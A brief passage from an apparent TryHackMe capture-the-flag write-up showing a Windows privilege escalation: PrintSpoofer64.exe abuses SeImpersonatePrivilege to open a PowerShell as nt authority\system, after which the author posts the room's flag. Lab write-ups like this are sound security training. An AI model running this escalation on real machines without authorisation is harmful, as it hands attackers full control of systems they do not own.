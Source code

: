 ```bash
PrintSpoofer64.exe -i -c powershell

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

And just like that I retrieved the flag in the administrator desktop: `THM{1fk5kf469devly1gl320zafgl345pv}`

[Relevant Report](https://www.notion.so/Relevant-Report-abd044f35721485e867b54a754a2d63c?pvs=21)